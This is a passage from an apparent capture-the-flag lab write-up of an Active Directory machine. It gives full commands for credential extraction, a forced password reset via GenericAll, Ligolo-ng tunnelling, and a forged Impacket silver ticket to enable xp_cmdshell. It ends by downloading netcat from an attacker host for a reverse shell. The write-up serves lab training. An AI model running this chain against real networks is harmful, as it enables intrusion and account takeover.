        fr--r--r--            30328 Sun Apr 30 10:07:07 2023    System.Security.Permissions.dll
        fr--r--r--             8987 Sun Apr 30 10:07:07 2023    System.Security.Permissions.xml
        fr--r--r--            18312 Sun Apr 30 10:07:07 2023    System.Security.Principal.Windows.dll
        fr--r--r--            90968 Sun Apr 30 10:07:07 2023    System.Security.Principal.Windows.xml
        SYSVOL                                                  READ ONLY       Logon server share 
[*] Closed 1 connections   
```

We have a `ResetPassword.exe` program that we can download and analyse.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ smbclient "//$TARGET_IP/NETLOGON" -U 'svc_mssql%Service1' -c 'prompt OFF; recurse ON; mget *'
getting file \ResetPassword\ResetPassword.exe of size 5120 as ResetPassword/ResetPassword.exe (32.1 KiloBytes/sec) (average 32.1 KiloBytes/sec)
getting file \ResetPassword\ResetPassword.exe.config of size 189 as ResetPassword/ResetPassword.exe.config (1.2 KiloBytes/sec) (average 16.6 KiloBytes/sec)
getting file \ResetPassword\System.IO.FileSystem.AccessControl.dll of size 28552 as ResetPassword/System.IO.FileSystem.AccessControl.dll (141.5 KiloBytes/sec) (average 64.8 KiloBytes/sec)
getting file \ResetPassword\System.IO.FileSystem.AccessControl.xml of size 65116 as ResetPassword/System.IO.FileSystem.AccessControl.xml (65.9 KiloBytes/sec) (average 65.5 KiloBytes/sec)
getting file \ResetPassword\System.Security.AccessControl.dll of size 35952 as ResetPassword/System.Security.AccessControl.dll (91.4 KiloBytes/sec) (average 70.9 KiloBytes/sec)
getting file \ResetPassword\System.Security.AccessControl.xml of size 231631 as ResetPassword/System.Security.AccessControl.xml (788.2 KiloBytes/sec) (average 166.8 KiloBytes/sec)
getting file \ResetPassword\System.Security.Permissions.dll of size 30328 as ResetPassword/System.Security.Permissions.dll (188.6 KiloBytes/sec) (average 168.3 KiloBytes/sec)
getting file \ResetPassword\System.Security.Permissions.xml of size 8987 as ResetPassword/System.Security.Permissions.xml (48.8 KiloBytes/sec) (average 159.6 KiloBytes/sec)
getting file \ResetPassword\System.Security.Principal.Windows.dll of size 18312 as ResetPassword/System.Security.Principal.Windows.dll (104.0 KiloBytes/sec) (average 156.0 KiloBytes/sec)
getting file \ResetPassword\System.Security.Principal.Windows.xml of size 90968 as ResetPassword/System.Security.Principal.Windows.xml (493.5 KiloBytes/sec) (average 177.5 KiloBytes/sec)

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ cd ResetPassword    
 
┌──(kali㉿kali)-[/mnt/…/PG_Practice/Advanced/Nagoya/ResetPassword]
└─$ file ResetPassword.exe 
ResetPassword.exe: PE32+ executable (console) x86-64 Mono/.Net assembly, for MS Windows, 2 sections
```

### Decompile the ResetPassword program

My tool of choice to decompile .NET programs is [dnSpy](https://github.com/dnSpy/dnSpy).

Looking through the program for interesting things such as credentials we find the password for the `svc_helpdesk` account.



New credentials:

- Username: `svc_helpdesk`
- Password: `U299iYRmikYTHDbPbxPoYYfa2j4x4cdg`

### BloodHound Data Collection

Next, we collect bloodhound data with NetExec.

```bash
┌──(kali㉿kali)-[/mnt/…/PG_Practice/Advanced/Nagoya/ResetPassword]
└─$ nxc ldap $TARGET_IP --dns-server $TARGET_IP -u svc_mssql -p 'Service1' --bloodhound -c all
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
LDAP        192.168.134.21  389    NAGOYA           [*] Windows 10 / Server 2019 Build 17763 (name:NAGOYA) (domain:nagoya-industries.com) (signing:None) (channel binding:No TLS cert) 
LDAP        192.168.134.21  389    NAGOYA           [+] nagoya-industries.com\svc_mssql:Service1 
LDAP        192.168.134.21  389    NAGOYA           Resolved collection methods: dcom, session, objectprops, localadmin, rdp, group, psremote, acl, trusts, container
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
<---snip--->
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
LDAP        192.168.134.21  389    NAGOYA           Done in 0M 26S
LDAP        192.168.134.21  389    NAGOYA           Compressing output into /home/kali/.nxc/logs/NAGOYA_192.168.134.21_2026-11-18_153632_bloodhound.zip
 
┌──(kali㉿kali)-[/mnt/…/PG_Practice/Advanced/Nagoya/ResetPassword]
└─$ cp /home/kali/.nxc/logs/NAGOYA_192.168.134.21_2026-11-18_153632_bloodhound.zip bloodhound.zip
```

And start BloodHound/Neo4j.

```bash
┌──(kali㉿kali)-[/mnt/…/PG_Practice/Advanced/Nagoya/ResetPassword]
└─$ bloodhound-start
[sudo] password for kali: 
Starting neo4j
Neo4j is not running.
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:243152). It is available at http://localhost:7474
There may be a short delay until the server is ready.
............................................................................................................

┏━(Message from Kali developers)
┃ 
┃ Please wait for the bloodhound service to start
┃ ....................
┃ [*] Web UI: http://127.0.0.1:8080
┃ [i] You might need to refresh your browser once it opens
┃ 
┃  Default credentials:
┃    user: admin
┃    password: admin
┃ 
┗━
```

### BloodHound Data Analysis

We then login and delete our previous collected data.  
Select `Administration`, then `Database Management` and enable all check-boxes.



Next, we load our new data from `Quick Upload`.

After the loading is complete, we select `Explore` and search for the users have have credentials for and Add them to Owned:

- `craig.carr`
- `fiona.clark`
- `andrea.hayes`
- `svc_mssql`
- `svc_helpdesk`

We can then show them with the following cypher-query:

`MATCH (n) WHERE n:Tag_Owned RETURN n`



Then we run the `Shortest paths from Owned object` query under `Cypher` and `Saved Queries`:



Ah, we have [GenericAll](https://bloodhound.specterops.io/resources/edges/generic-all) permissions on a large number of users via the `helpdesk` group.

The users include `Christopher.Lewis` who can access the machine with WinRM:



With our GenericAll permission we can force a password change for `Christopher.Lewis`.

### Change Christopher's password

Before we start to change passwords we check the password policy.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ nxc smb $TARGET_IP -u svc_mssql -p 'Service1' --pass-pol
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
SMB         192.168.134.21  445    NAGOYA           [*] Windows 10 / Server 2019 Build 17763 x64 (name:NAGOYA) (domain:nagoya-industries.com) (signing:True) (SMBv1:None) (Null Auth:True) 
SMB         192.168.134.21  445    NAGOYA           [+] nagoya-industries.com\svc_mssql:Service1 
SMB         192.168.134.21  445    NAGOYA           [+] Dumping password info for domain: NAGOYA-IND
SMB         192.168.134.21  445    NAGOYA           Minimum password length: 7
SMB         192.168.134.21  445    NAGOYA           Password history length: 24
SMB         192.168.134.21  445    NAGOYA           Maximum password age: 41 days 23 hours 53 minutes 
SMB         192.168.134.21  445    NAGOYA 
SMB         192.168.134.21  445    NAGOYA           Password Complexity Flags: 000001
SMB         192.168.134.21  445    NAGOYA               Domain Refuse Password Change: 0
SMB         192.168.134.21  445    NAGOYA               Domain Password Store Cleartext: 0
SMB         192.168.134.21  445    NAGOYA               Domain Password Lockout Admins: 0
SMB         192.168.134.21  445    NAGOYA               Domain Password No Clear Change: 0
SMB         192.168.134.21  445    NAGOYA               Domain Password No Anon Change: 0
SMB         192.168.134.21  445    NAGOYA               Domain Password Complex: 1
SMB         192.168.134.21  445    NAGOYA 
SMB         192.168.134.21  445    NAGOYA           Minimum password age: 1 day 4 minutes 
SMB         192.168.134.21  445    NAGOYA           Reset Account Lockout Counter: 10 minutes 
SMB         192.168.134.21  445    NAGOYA           Locked Account Duration: 10 minutes 
SMB         192.168.134.21  445    NAGOYA           Account Lockout Threshold: None
SMB         192.168.134.21  445    NAGOYA           Forced Log off Time: Not Set
```

Complex passwords are required and the minimum length is 7.

We can change passwords remotely with the `net` command from the Samba suite.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ net rpc password Christopher.Lewis 'Password123!' -S $TARGET_IP -U nagoya-industries.com/svc_helpdesk%'U299iYRmikYTHDbPbxPoYYfa2j4x4cdg'
```

### Connect as Christopher

We connect as `Christopher.Lewis` with Evil-WinRM:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ evil-winrm -i $TARGET_IP -u Christopher.Lewis -p 'Password123!' 
 
Evil-WinRM shell v3.7
 
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
 
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
 
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents> whoami
nagoya-ind\christopher.lewis
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents> 
```

### Get the user flag

The user flag is now available to us.

```powershell
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents> where.exe /R C:\Users local.txt
where.exe : INFO: Could not find files for the given pattern(s).
    + CategoryInfo          : NotSpecified: (INFO: Could not...ven pattern(s).:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents> where.exe /R C:\ local.txt
C:\local.txt
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents> type C:\local.txt
6<REDACTED>6
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents> 
```

### Enumeration for the SQL service

Checking for the "missing" MSSQL-server service on port 1433 we can see that it is indeed running:

```powershell
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents> netstat -nao | findstr 1433
  TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       3612
  TCP    [::]:1433              [::]:0                 LISTENING       3612
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents> 
```

But a local firewall rule is blocking access to it.

```bash
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents> netsh.exe adv firewall show rule name=all verbose

Rule Name:                            Custom Forbid External 1433
----------------------------------------------------------------------
Enabled:                              Yes
Direction:                            In
Profiles:                             Domain,Private,Public
Grouping:
LocalIP:                              Any
RemoteIP:                             Any
Protocol:                             TCP
LocalPort:                            1433
RemotePort:                           Any
Edge traversal:                       No
InterfaceTypes:                       Any
Security:                             NotRequired
Rule source:                          Local Setting
Action:                               Block
<---snip--->
```

### Configure tunneling with Ligolo-ng

To get around that, we can use [Ligolo-ng](https://github.com/nicocha30/ligolo-ng).

First we start the proxy server at our Kali machine.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ sudo ip tuntap add user kali mode tun ligolo
 
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ sudo ip link set ligolo up

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ sudo ligolo-proxy -selfcert
INFO[0000] Loading configuration file ligolo-ng.yaml    
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
INFO[0000] Listening on 0.0.0.0:11601 
    __    _             __ 
   / /   (_)___ _____  / /___        ____  ____ _ 
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/ 
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, / 
        /____/                          /____/ 
 
  Made in France ♥            by @Nicocha30! 
  Version: dev 
 
ligolo-ng »  
```

We share the agent via HTTP:

```bash
┌──(kali㉿kali)-[/var/www/html]
└─$ ligolo-ng-common-binaries 

> ligolo-ng-common-binaries ~ Prebuilt binaries for Advanced ligolo-ng

/usr/share/ligolo-ng-common-binaries
├── ligolo-ng_agent_0.9.2_darwin_amd64
├── ligolo-ng_agent_0.9.2_darwin_arm64
├── ligolo-ng_agent_0.9.2_linux_amd64
├── ligolo-ng_agent_0.9.2_linux_arm64
├── ligolo-ng_agent_0.9.2_windows_amd64.exe
├── ligolo-ng_agent_0.9.2_windows_arm64.exe
├── ligolo-ng_proxy_0.9.2_darwin_amd64
├── ligolo-ng_proxy_0.9.2_darwin_arm64
├── ligolo-ng_proxy_0.9.2_linux_amd64
├── ligolo-ng_proxy_0.9.2_linux_arm64
├── ligolo-ng_proxy_0.9.2_windows_amd64.exe
└── ligolo-ng_proxy_0.9.2_windows_arm64.exe
┌──(kali㉿kali)-[/usr/share/ligolo-ng-common-binaries]
└─$ cp ligolo-ng_agent_0.9.2_windows_amd64.exe /mnt/hgfs/OffSec_PG/PG_Practice/Advanced/Nagoya 
 
┌──(kali㉿kali)-[/usr/share/ligolo-ng-common-binaries]
└─$ cd /mnt/hgfs/OffSec_PG/PG_Practice/Advanced/Nagoya
 
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

And download it to the target machine.

```powershell
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents> cd ../Downloads
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Downloads> curl http://192.168.45.240/ligolo-ng_agent_0.9.2_windows_amd64.exe -o ligolo-ng_agent.exe
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Downloads> dir


    Directory: C:\Users\Christopher.Lewis\Downloads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       11/18/2026  10:08 AM        7374848 ligolo-ng_agent.exe


*Evil-WinRM* PS C:\Users\Christopher.Lewis\Downloads> 
```

Next, we run the agent on the target machine.

```powershell
*Evil-WinRM* PS C:\Users\Christopher.Lewis\downloads> .\ligolo-ng_agent.exe -connect 192.168.45.240:11601 -ignore-cert
ligolo-ng_agent.exe : time="2026-11-18T11:08:56-08:00" level=warning msg="warning, certificate validation disabled"
    + CategoryInfo          : NotSpecified: (time="2026-11-1...ation disabled":String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
time="2026-11-18T11:08:56-08:00" level=info msg="Connection established" addr="192.168.45.240:11601"
```

Back at the proxy server we select the new session.

```bash
ligolo-ng » INFO[0068] Agent joined.                                 id=0050569e028e name="NAGOYA-IND\\Christopher.Lewis@nagoya" remote="192.168.134.21:49825"
ligolo-ng » session
? Specify a session : 1 - NAGOYA-IND\Christopher.Lewis@nagoya - 192.168.134.21:49825 - 0050569e028e
[Agent : NAGOYA-IND\Christopher.Lewis@nagoya] » 
```

To reach the agents loopback IP (`127.0.0.1`) we need to add a route within `ligolo-ng`.

```bash
[Agent : NAGOYA-IND\Christopher.Lewis@nagoya] » help route_add

Add a route to a network interface

Usage:
======
  route_add --name [ifname] --route [cidr]

Flags:
======
  -h, --help            display help
      --name  string    the interface name
      --route string    the network cidr

[Agent : NAGOYA-IND\Christopher.Lewis@nagoya] » route_add --name ligolo --route 240.0.0.1/32
INFO[0310] Route created.  
[Agent : NAGOYA-IND\Christopher.Lewis@nagoya] » route_list
┌────────────────────────────────────────────────────────────────────────────────────┐
│ Interface list                                                                     │
├───┬──────────────┬────────────────────────────────────────────┬────────────────────┤
│ # │ TAP NAME     │ DST ROUTES                                 │ STATE              │
├───┼──────────────┼────────────────────────────────────────────┼────────────────────┤
│ 0 │ ligolo       │ 240.0.0.1/32                               │ Active - 1 routes  │
│ 1 │ ligolosample │ 10.254.0.0/24,10.255.0.0/24                │ Pending - 2 routes │
│ 2 │ tun0         │ 192.168.45.0/24,192.168.158.0/24,fe80::/64 │ Active - 3 routes  │
└───┴──────────────┴────────────────────────────────────────────┴────────────────────┘
Interfaces and routes with "Pending" state will be created on tunnel start.
[Agent : NAGOYA-IND\Christopher.Lewis@nagoya] »  
```

Finally, we start relaying.

```bash
[Agent : NAGOYA-IND\Christopher.Lewis@nagoya] » start --tun ligolo
INFO[0435] Starting tunnel to NAGOYA-IND\Christopher.Lewis@nagoya (0050569eb374) 
[Agent : NAGOYA-IND\Christopher.Lewis@nagoya] »  
```

### Verify relaying with nmap

To verify that the relaying is working we can do a nmap scan of `240.0.0.1`, i.e. the IP `127.0.0.1` of the target machine.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ sudo nmap -sC -sV 240.0.0.1
[sudo] password for kali: 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-21 09:24 +0100
Nmap scan report for 240.0.0.1
Host is up (0.043s latency).
Not shown: 986 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
80/tcp   open  http              Microsoft IIS httpd 10.0
|_http-title: Nagoya Industries - Nagoya
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2026-11-21 08:25:10Z)
135/tcp  open  msrpc             Microsoft Windows RPC
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
1433/tcp open  ms-sql-s          Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-info: 
|   240.0.0.1:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-08-02T02:59:55
|_Not valid after:  2054-08-02T02:59:55
| ms-sql-ntlm-info: 
|   240.0.0.1:1433: 
|     Target_Name: NAGOYA-IND
|     NetBIOS_Domain_Name: NAGOYA-IND
|     NetBIOS_Computer_Name: NAGOYA
|     DNS_Domain_Name: nagoya-industries.com
|     DNS_Computer_Name: nagoya.nagoya-industries.com
|     DNS_Tree_Name: nagoya-industries.com
|_    Product_Version: 10.0.17763
|_ssl-date: 2026-11-21T08:26:02+00:00; 0s from scanner time.
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com, Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
|_ssl-date: 2026-11-21T08:26:02+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=nagoya.nagoya-industries.com
| Not valid before: 2026-11-20T08:12:23
|_Not valid after:  2027-05-22T08:12:23
| rdp-ntlm-info: 
|   Target_Name: NAGOYA-IND
|   NetBIOS_Domain_Name: NAGOYA-IND
|   NetBIOS_Computer_Name: NAGOYA
|   DNS_Domain_Name: nagoya-industries.com
|   DNS_Computer_Name: nagoya.nagoya-industries.com
|   DNS_Tree_Name: nagoya-industries.com
|   Product_Version: 10.0.17763
|_  System_Time: 2026-11-21T08:25:22+00:00
5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: NAGOYA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-11-21T08:25:26
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.33 seconds
```

The output includes port 1433 which is now reachable.

### Connect to the MS SQL Server

Now we can connect to the SQL-server with Impacket.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ impacket-mssqlclient svc_mssql:Service1@127.0.0.1 -windows-auth
/usr/lib/python3/dist-packages/impacket/mssql/version.py:182: SyntaxWarning: 'return' in a 'finally' block
  return string
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(nagoya\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(nagoya\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (NAGOYA-IND\svc_mssql  guest@master)> enum_db
name     is_trustworthy_on   
------   -----------------   
master                   0   
tempdb                   0   
model                    0   
msdb                     1   
SQL (NAGOYA-IND\svc_mssql  guest@master)> enable_xp_cmdshell
ERROR(nagoya\SQLEXPRESS): Line 105: User does not have permission to perform this action.
ERROR(nagoya\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
ERROR(nagoya\SQLEXPRESS): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
ERROR(nagoya\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
SQL (NAGOYA-IND\svc_mssql  guest@master)> 
```

Nope, we are not allowed!

### Craft a silver ticket

We can trick the SQL service into thinking we are someone with high-level privileges, like Administrator, by crafting a silver ticket that we pass to the service.

To do this we need three things:

1. The NTLM-hash for the SPN account
2. The domain SID
3. The SPN name to target

We already have the password and with it we can use an online service such as [Code Beautify](https://codebeautify.org/ntlm-hash-generator) to calculate the hash:



The hash becomes: `E3A0168BC21CFB88B95C954A5B18F57C`.

To get the domain SID and target SPN we can use Impacket:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ impacket-lookupsid nagoya-industries.com/svc_mssql:'Service1'@$TARGET_IP 0 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at 192.168.134.21
[*] StringBinding ncacn_np:192.168.134.21[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1969309164-1513403977-1686805993

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ impacket-GetUserSPNs -dc-ip $TARGET_IP nagoya-industries.com/svc_mssql:'Service1'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName                Name          MemberOf                                          PasswordLastSet             LastLogon                   Delegation 
----------------------------------  ------------  ------------------------------------------------  --------------------------  --------------------------  ----------
http/nagoya.nagoya-industries.com   svc_helpdesk  CN=helpdesk,CN=Users,DC=nagoya-industries,DC=com  2023-04-30 09:31:06.190955  <never> 
MSSQL/nagoya.nagoya-industries.com  svc_mssql                                                       2023-04-30 09:45:33.288595  2026-11-18 17:44:39.561889   
```

Finally, we create the silver ticket with yet another Impacket tool.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ impacket-ticketer -nthash e3a0168bc21cfb88b95c954a5b18f57c -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn MSSQL/nagoya.nagoya-industries.com -user-id 500 Administrator
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for nagoya-industries.com/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache
```

The result is a Kerberos ticket in the file `Administrator.ccache`.

### Connect to the MS SQL Server - part 2

Since Kerberos is using hostnames rather than IP-addresses we need to update our `\etc\hosts` file.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ sudo vi /etc/hosts
 
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ tail -n2 /etc/hosts
# 192.168.134.21     NAGOYA.nagoya-industries.com nagoya-industries.com NAGOYA
240.0.0.1 nagoya.nagoya-industries.com
```

Next, we create a custom `krb5.conf` file to use with our Kerberos connection.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ nxc smb $TARGET_IP -u svc_mssql -p 'Service1' --generate-krb5-file custom_krb5.conf
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
SMB         192.168.158.21  445    NAGOYA           [*] Windows 10 / Server 2019 Build 17763 x64 (name:NAGOYA) (domain:nagoya-industries.com) (signing:True) (SMBv1:None) (Null Auth:True) 
SMB         192.168.158.21  445    NAGOYA           [+] krb5 conf saved to: custom_krb5.conf
SMB         192.168.158.21  445    NAGOYA           [+] Run the following command to use the conf file: export KRB5_CONFIG=custom_krb5.conf
SMB         192.168.158.21  445    NAGOYA           [+] nagoya-industries.com\svc_mssql:Service1 
 
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ cat custom_krb5.conf 
[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false
    default_realm = NAGOYA-INDUSTRIES.COM

[realms]
    NAGOYA-INDUSTRIES.COM = {
        kdc = nagoya.nagoya-industries.com
        admin_server = nagoya.nagoya-industries.com
        default_domain = nagoya-industries.com
    }

[domain_realm]
    .nagoya-industries.com = NAGOYA-INDUSTRIES.COM
    nagoya-industries.com = NAGOYA-INDUSTRIES.COM 

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ export KRB5_CONFIG=custom_krb5.conf
```

before we authenticate:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ export KRB5CCNAME=Administrator.ccache 

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ klist 
Ticket cache: FILE:Administrator.ccache
Default principal: Administrator@NAGOYA-INDUSTRIES.COM

Valid starting       Expires              Service principal
11/18/2026 17:48:58  11/15/2036 17:48:58  MSSQL/nagoya.nagoya-industries.com@NAGOYA-INDUSTRIES.COM
        renew until 11/15/2036 17:48:58

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ impacket-mssqlclient -k nagoya.nagoya-industries.com
/usr/lib/python3/dist-packages/impacket/mssql/version.py:182: SyntaxWarning: 'return' in a 'finally' block
  return string
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(nagoya\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(nagoya\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (NAGOYA-IND\Administrator  dbo@master)> enable_xp_cmdshell 
INFO(nagoya\SQLEXPRESS): Line 196: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
INFO(nagoya\SQLEXPRESS): Line 196: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (NAGOYA-IND\Administrator  dbo@master)> xp_cmdshell "whoami /priv"
output 
--------------------------------------------------------------------------------   
NULL 
PRIVILEGES INFORMATION 
---------------------- 
NULL 
Privilege Name                Description                               State 
============================= ========================================= ========   
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeMachineAccountPrivilege     Add workstations to domain                Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled   
NULL 
SQL (NAGOYA-IND\Administrator  dbo@master)> 
```

This time we **can** enable xp_cmdshell and we see that we have the `SeImpersonatePrivilege` privilege.

### Get a reverse shell

We download [nc64](https://github.com/int0x33/nc.exe/) to use as a reverse shell.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ evil-winrm -i $TARGET_IP -u Christopher.Lewis -p 'Password123!'
 
Evil-WinRM shell v3.7
 
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
 
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
 
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents> cd C:\temp
*Evil-WinRM* PS C:\temp> curl http://192.168.45.240/nc64.exe -o nc.exe
```

Next, we start a [Penelope](https://github.com/brightio/penelope) listener to catch the reverse shell:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ penelope -i tun0 -p 12345
[+] Listening for reverse shells on 192.168.45.240:12345 
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)

```

And then trigger it:

```bash
